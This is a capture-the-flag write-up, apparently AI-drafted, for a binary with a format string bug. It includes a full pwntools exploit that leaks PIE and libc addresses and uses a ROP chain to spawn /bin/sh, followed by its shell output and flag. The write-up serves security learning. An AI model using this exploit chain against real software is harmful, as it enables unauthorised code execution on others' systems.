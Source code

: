 # Command And Control Server - Writeup

---

## Challenge Summary

The `Command And Control Server` binary simulates a mock C2 interface that accepts a "callsign" (username) and a subsequent payload. The program is vulnerable to a **format string vulnerability**, allowing for **arbitrary memory writes**. Leveraging this, we overwrite the username with `"/bin/sh"`, leak `puts@GOT`, calculate the libc base, and finally perform a **ret2libc** to spawn a shell.

---

## Binary Information

```bash
$ file main
```

![Alt text](img/1.png)

```bash
$ checksec main

```

![Alt text](img/2.png)

## Static Analysis

### Vulnerable Code

```c
printf(">> Welcome Commander: ");
printf(buf);  // Format string vulnerability
```

![Alt text](img/3.png)

- The `printf(buf)` line introduces a **format string vulnerability**.
- The `read(0, buf, 0xC8)` provides a generous buffer size.
- The buffer `buf[208]` is large enough for format string payloads.
- The binary has **NX enabled**, so we can't inject and jump to shellcode.
- However, it does not use a stack canary, and with **PIE enabled**, we must leak memory to compute addresses.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.
- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.
- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('main')
libc = ELF('libc.so.6')  # Ensure you’re using the matching libc version

def start():
    return process([exe.path])

io = start()

# Step 1: Leak username pointer & calculate PIE base
io.recvuntil(b">> Auth Token = ")
username_ptr = int(io.recvline().strip(), 16)
exe.address = username_ptr - exe.sym['username']
log.success(f"username @ {hex(username_ptr)}")
log.success(f"PIE base @ {hex(exe.address)}")

# Step 2: Format String to Write "/bin/sh"
io.recvuntil(b">> [C2] Enter your callsign to proceed:")
payload = fmtstr_payload(6, {username_ptr: u64(b"/bin/sh\x00")})
io.sendline(payload)

# Step 3: Leak puts@got using ROP
io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.sym['main'])

payload = b"A" * 88
payload += rop.chain()
io.sendline(payload)

# Read and parse puts leak
for _ in range(4): io.recvline()
leaked_puts = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.sym['puts']
log.success(f"Leaked puts: {hex(leaked_puts)}")
log.success(f"libc base: {hex(libc.address)}")

# Step 4: ret2libc to execve("/bin/sh", NULL, NULL)
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall'])[0]

payload = b"A" * 88
payload += p64(pop_rdi) + p64(username_ptr)
payload += p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)

io.sendline(payload)
io.interactive()
```

---

## Exploit Output

```text
$ ./exploit.py
[+] Starting local process './main': pid 1234
[*] Leaked puts: 0x7fbb12345678
[*] libc base: 0x7fbb12000000
[*] Switching to interactive mode
$ whoami
ctfplayer
$ cat flag.txt
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- Format string vulnerability enables arbitrary write
- ROP used to leak libc and execute a syscall chain
- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

Let me know if you want to add a **Reverse Engineering section**, **GDB insights**, or visuals like **call flow diagrams or memory layout maps**.
